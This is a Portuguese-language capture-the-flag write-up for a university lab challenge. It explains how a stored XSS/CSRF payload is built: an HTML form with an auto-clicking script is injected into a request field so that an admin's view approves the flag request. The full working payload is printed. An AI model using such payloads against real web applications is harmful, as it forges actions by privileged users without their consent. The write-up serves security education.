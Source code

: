 # CTF #6 - Apply For a Flag II

Primeiramente, notamos que, quando clicamos no botão **submit**, no site `http://ctf-fsi.fe.up.pt:5004/request`, e no botão **page**, somos redirecionados para o site `http://ctf-fsi.fe.up.pt:5005/request/84da570ff0bfd81b1d9adf6064053920675bf1e3`, em que **84da570ff0bfd81b1d9adf6064053920675bf1e3** é o **id** do pedido, que possui 2 botões que representam as 2 escolhas que o admin pode ter em relação ao pedido da flag: **Give the flag** e **Mark as read**.<br>

Analisando o **html** da página notamos que o botão **Give the flag** está envolvido num **form** da seguinte forma:

```html
<form method="POST" action="/request/84da570ff0bfd81b1d9adf6064053920675bf1e3/approve" role="form">
    <div class="submit">       
        <input type="submit" id="giveflag" value="Give the flag" disabled>       
    </div>
</form>
```

Portanto, para construirmos o nosso ataque, fizemos o seguinte:

- Retiramos a flag **disabled** do input que tem o botão
- Adicionamos `http://ctf-fsi.fe.up.pt:5005` ao início do link da action do form
- Criamos um script que vai clicar no botão com o **id** = **giveflag** e submeter o form logo após o código correr

No final, o form que submetemos no input `Beg for a flag` foi o seguinte:

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/84da570ff0bfd81b1d9adf6064053920675bf1e3/approve" role="form">     
	<div class="submit">                  
		<input type="submit" id="giveflag" value="Give the flag">
	</div>  
	<script> 
        document.getElementById("giveflag").click();
    </script>
</form>
```

Por fim, para concluir o nosso ataque, tivemos que desativar o javascript, através das definições do browser, para impedir que fossemos redirecionados.

Após submeter o form alterado no input `Beg for a flag` e desativado o javascript, basta dar refresh à página que a flag estará presente onde costuma estar escrito **Your request hasn't been evaluated yet!**
